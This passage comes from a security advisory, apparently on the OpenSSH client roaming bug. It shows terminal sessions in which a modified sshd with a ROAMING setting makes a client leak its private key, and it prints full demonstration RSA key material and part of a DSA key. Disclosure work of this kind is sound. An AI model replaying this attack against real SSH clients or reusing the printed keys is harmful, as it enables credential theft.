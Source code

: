 strerror(errno)); $ /usr/bin/ssh -V OpenSSH_6.6.1p1, OpenSSL 1.0.1p-freebsd 9 Jul 2015 $ /usr/bin/ssh -o ProxyUseFdpass=yes -o ProxyCommand="/usr/bin/nc -F %h %p" -p 222 127.0.0.1 user@127.0.0.1's password: [connection suspended, press return to resume]Couldn't wait for child: No child processes - The method ssh_proxy_connect() fork()s a standard ProxyCommand that connects the client to the server, but if a disconnection occurs, and the SIGCHLD of the terminated ProxyCommand is caught while fgetc() is waiting for a '\n' or '\r' on stdin, EOF is returned (the underlying read() returns EINTR) and the client exit()s before it can reconnect to the server: $ /usr/bin/ssh -V OpenSSH_6.6.1p1 Ubuntu-2ubuntu2, OpenSSL 1.0.1f 6 Jan 2014 $ /usr/bin/ssh -o ProxyCommand="/bin/nc %h %p" -p 222 127.0.0.1 user@127.0.0.1's password: [connection suspended, press return to resume][exiting] This behavior is intriguing, because (at least on Linux and BSD) the signal() call that installed the main_sigchld_handler() is supposed to be equivalent to a sigaction() call with SA_RESTART. However, portable versions of OpenSSH override signal() with mysignal(), a function that calls sigaction() without SA_RESTART. This last mitigating factor is actually a race-condition bug that depends on the ProxyCommand itself: for example, the client never fails to reconnect to the server when using Socat as a ProxyCommand, but fails occasionally when using Netcat. ------------------------------------------------------------------------ Private Key Disclosure example: FreeBSD 10.0, 2048-bit RSA key ------------------------------------------------------------------------ $ head -n 1 /etc/motd FreeBSD 10.0-RELEASE (GENERIC) #0 r260789: Thu Jan 16 22:34:59 UTC 2014 $ /usr/bin/ssh -V OpenSSH_6.4p1, OpenSSL 1.0.1e-freebsd 11 Feb 2013 $ cat ~/.ssh/id_rsa -----BEGIN RSA PRIVATE KEY----- MIIEpQIBAAKCAQEA3GKWpUCOmK05ybfhnXTTzWAXs5A0FufmqlihRKqKHyflYXhr qlcdPH4PvbAhkc8cUlK4c/dZxNiyD04Og1MVwVp2kWp9ZDOnuLhTR2mTxYjEy+1T M3/74toaLj28kwbQjTPKhENMlqe+QVH7pH3kdun92SEqzKr7Pjx4/2YzAbAlZpT0 9Zj/bOgA7KYWfjvJ0E9QQZaY68nEB4+vIK3agB6+JT6lFjVnSFYiNQJTPVedhisd a3KoK33SmtURvSgSLBqO6e9uPzV87nMfnSUsYXeej6yJTR0br44q+3paJ7ohhFxD zzqpKnK99F0uKcgrjc3rF1EnlyexIDohqvrxEQIDAQABAoIBAQDHvAJUGsIh1T0+ eIzdq3gZ9jEE6HiNGfeQA2uFVBqCSiI1yHGrm/A/VvDlNa/2+gHtClNppo+RO+OE w3Wbx70708UJ3b1vBvHHFCdF3YWzzVSujZSOZDvhSVHY/tLdXZu9nWa5oFTVZYmk oayzU/WvYDpUgx7LB1tU+HGg5vrrVw6vLPDX77SIJcKuqb9gjrPCWsURoVzkWoWc bvba18loP+bZskRLQ/eHuMpO5ra23QPRmb0p/LARtBW4LMFTkvytsDrmg1OhKg4C vcbTu2WOK1BqeLepNzTSg2wHtvX8DRUJvYBXKosGbaoIOFZvohoqSzKFs+R3L3GW hZz9MxCRAoGBAPITboUDMRmvUblU58VW85f1cmPvrWtFu7XbRjOi3O/PcyT9HyoW bc3HIg1k4XgHk5+F9r5+eU1CiUUd8bOnwMEUTkyr7YH/es+O2P+UoypbpPCfEzEd muzCFN1kwr4RJ5RG7ygxF8/h/toXua1nv/5pruro+G+NI2niDtaPkLdfAoGBAOkP wn7j8F51DCxeXbp/nKc4xtuuciQXFZSz8qV/gvAsHzKjtpmB+ghPFbH+T3vvDCGF iKELCHLdE3vvqbFIkjoBYbYwJ22m4y2V5HVL/mP5lCNWiRhRyXZ7/2dd2Jmk8jrw sj/akWIzXWyRlPDWM19gnHRKP4Edou/Kv9Hp2V2PAoGBAInVzqQmARsi3GGumpme vOzVcOC+Y/wkpJET3ZEhNrPFZ0a0ab5JLxRwQk9mFYuGpOO8H5av5Nm8/PRB7JHi /rnxmfPGIWJX2dG9AInmVFGWBQCNUxwwQzpz9/VnngsjMWoYSayU534SrE36HFtE K+nsuxA+vtalgniToudAr6H5AoGADIkZeAPAmQQIrJZCylY00dW+9G/0mbZYJdBr +7TZERv+bZXaq3UPQsUmMJWyJsNbzq3FBIx4Xt0/QApLAUsa+l26qLb8V+yDCZ+n UxvMSgpRinkMFK/Je0L+IMwua00w7jSmEcMq0LJckwtdjHqo9rdWkvavZb13Vxh7 qsm+NEcCgYEA3KEbTiOU8Ynhv96JD6jDwnSq5YtuhmQnDuHPxojgxSafJOuISI11 1+xJgEALo8QBQT441QSLdPL1ZNpxoBVAJ2a23OJ/Sp8dXCKHjBK/kSdW3U8SJPjV pmvQ0UqnUpUj0h4CVxUco4C906qZSO5Cemu6g6smXch1BCUnY0TcOgs= -----END RSA PRIVATE KEY----- # env ROAMING="client_out_buf_size:1280" "`pwd`"/sshd -o ListenAddress=127.0.0.1:222 -o UsePrivilegeSeparation=no -f /etc/ssh/sshd_config -h /etc/ssh/ssh_host_rsa_key $ /usr/bin/ssh -p 222 127.0.0.1 user@127.0.0.1's password: [connection suspended, press return to resume][connection resumed] # cat /tmp/roaming-97ed9f59/infoleak MIIEpQIBAAKCAQEA3GKWpUCOmK05ybfhnXTTzWAXs5A0FufmqlihRKqKHyflYXhr qlcdPH4PvbAhkc8cUlK4c/dZxNiyD04Og1MVwVp2kWp9ZDOnuLhTR2mTxYjEy+1T M3/74toaLj28kwbQjTPKhENMlqe+QVH7pH3kdun92SEqzKr7Pjx4/2YzAbAlZpT0 9Zj/bOgA7KYWfjvJ0E9QQZaY68nEB4+vIK3agB6+JT6lFjVnSFYiNQJTPVedhisd a3KoK33SmtURvSgSLBqO6e9uPzV87nMfnSUsYXeej6yJTR0br44q+3paJ7ohhFxD zzqpKnK99F0uKcgrjc3rF1EnlyexIDohqvrxEQIDAQABAoIBAQDHvAJUGsIh1T0+ eIzdq3gZ9jEE6HiNGfeQA2uFVBqCSiI1yHGrm/A/VvDlNa/2+gHtClNppo+RO+OE w3Wbx70708UJ3b1vBvHHFCdF3YWzzVSujZSOZDvhSVHY/tLdXZu9nWa5oFTVZYmk oayzU/WvYDpUgx7LB1tU+HGg5vrrVw6vLPDX77SIJcKuqb9gjrPCWsURoVzkWoWc bvba18loP+bZskRLQ/eHuMpO5ra23QPRmb0p/LARtBW4LMFTkvytsDrmg1OhKg4C vcbTu2WOK1BqeLepNzTSg2wHtvX8DRUJvYBXKosGbaoIOFZvohoqSzKFs+R3L3GW hZz9MxCRAoGBAPITboUDMRmvUblU58VW85f1cmPvrWtFu7XbRjOi3O/PcyT9HyoW bc3HIg1k4XgHk5+F9r5+eU1CiUUd8bOnwMEUTkyr7YH/es+O2P+UoypbpPCfEzEd muzCFN1kwr4RJ5RG7ygxF8/h/toXua1nv/5pruro+G+NI2niDtaPkLdfAoGBAOkP wn7j8F51DCxeXbp/nKc4xtuuciQXFZSz8qV/gvAsHzKjtpmB+ghPFbH+T3vvDCGF iKELCHLdE3vvqbFIkjoBYbYwJ22m4y2V5HVL/mP5lCNWiRhRyXZ7/2dd2Jmk8jrw sj/akWIzXWyRlPDWM19gnHRKP4Edou/Kv9Hp2V2PAoGBAInVzqQmARsi3GGumpme ------------------------------------------------------------------------ Private Key Disclosure example: FreeBSD 9.2, 1024-bit DSA key ------------------------------------------------------------------------ $ head -n 1 /etc/motd FreeBSD 9.2-RELEASE (GENERIC) #0 r255898: Fri Sep 27 03:52:52 UTC 2013 $ /usr/bin/ssh -V OpenSSH_6.2p2, OpenSSL 0.9.8y 5 Feb 2013 $ cat ~/.ssh/id_dsa -----BEGIN DSA PRIVATE KEY----- MIIBugIBAAKBgQCEfEo25eMTu/xrpVQxBGEjW/WEfeH4jfqaCDluPBlcl5dFd8KP grGm6fh8c+xdNYRg+ogHwM3uDG5aY62X804UGysCUoY5isSDkkwGrbbemHxR/Cxe 4bxlIbQrw8KY39xLOY0hC5mpPnB01Cr+otxanYUTpsb8gpEngVvK619O0wIVAJwY 8RLHmLnPaMFSOvYvGW6eZNgtAoGACkP73ltWMdHM1d0W8Tv403yRPaoCRIiTVQOw oM8/PQ1JVFmBJxrJXtFJo88TevlDHLEghapj4Wvpx8NJY917bC425T2zDlJ4L9rP IeOjqy+HwGtDXjTHspmGy59CNe8E6vowZ3XM4HYH0n4GcwHvmzbhjJxYGmGJrng4 cRh4VTwCgYAPxVV+3eA46WWZzlnttzxnrr/w/9yUC/DfrKKQ2OGSQ9zyVn7QEEI+ iUB2lkeMqjNwPkxddONOBZB7kFmjOS69Qp0mfmsRf15xneqU8IoMSwqa5LOXM0To